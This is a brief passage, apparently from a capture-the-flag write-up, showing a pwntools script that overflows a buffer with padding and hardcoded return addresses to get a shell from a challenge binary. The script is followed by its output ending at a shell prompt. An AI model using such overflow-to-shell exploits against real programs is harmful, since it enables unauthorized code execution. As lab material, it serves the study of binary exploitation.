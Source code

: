 ```python
p.sendline('B' * 110 + 'C' * 7 + '\0' + '\xce\x0b\x40\x00\x00\x00\x00\x00' )
#p.readuntil('Enter choice')
p.sendline('')
p.sendline('3')
p.sendline('')
p.sendline('2')
p.sendline('l0ln0onewillguessth1s')
p.sendline('')
p.sendline('0')
p.sendline('1')
p.sendline('"/bin/sh"')
p.sendline('1')
p.sendline('D' * 30)
p.sendline('E' * 110 + 'F' * 7 + '\0' + '\x8a\x0b\x40\x00\x00\x00\x00\x00' )
p.sendline('')
p.sendline('4')
p.sendline('')
p.sendline('2')
p.interactive()
```
Finally, we see:

```gdb
Enter choice: Exiting!
Thank you for visiting "/bin/sh"
$
```

